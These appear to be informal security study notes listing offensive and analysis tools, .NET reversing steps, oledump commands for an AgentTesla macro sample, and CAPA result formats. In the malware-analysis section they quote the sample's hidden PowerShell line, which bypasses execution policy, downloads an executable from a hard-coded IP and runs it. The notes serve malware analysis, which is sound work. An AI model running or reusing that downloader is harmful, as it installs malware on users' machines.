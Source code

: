 
enumerate privilege escalations: https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
enumerate privilege escalations windows: https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1

pentestmonkey: https://github.com/pentestmonkey?tab=repositories


Living of the land: https://lolbas-project.github.io/

Crypto analysis : https://www.quipqiup.com/


cli commands: https://ss64.com

———



——

.NET binary reversing: 
1. Check details using PEStudio without running the binary
    1. Record the hash of binary, .text section so that it cannot be modified during analysis
    2. Check indicators for useful information
    3. 
2. 

PE format: https://learn.microsoft.com/en-us/windows/win32/debug/pe-format
ILSpy: https://github.com/icsharpcode/ILSpy 
Windows Registry: https://learn.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users

——

Malicious file Analysis:

Oledump.py : https://github.com/DidierStevens/DidierStevensSuite/blob/master/oledump.py
- run analysis: oledump.py agenttesla.xlsm
- Select data stream 4th: oledump.py agenttesla.xlsm -s 4
- Show the output in readable format: oledump.py agenttesla.xlsm -s 4 --vbadecompress


"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"



—
CAPA: Common Analysis Platform for Artifacts
Results formats:
- MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) - https://attack.mitre.org/
- MAEC (Malware Attribute Enumeration and Characterization) - http://maecproject.github.io/
- MBC - Malware Behavior Catalogue - https://github.com/MBCProject/mbc-markdown/blob/main/mbc_summary.md
- namespaces: https://github.com/MBCProject/capa-rules-1?tab=readme-ov-file#namespace-organization
- Capabilities : rule names that is matched
- CAPA explorer: view json file in human readable format: https://mandiant.github.io/capa/explorer/#/
- 
- 

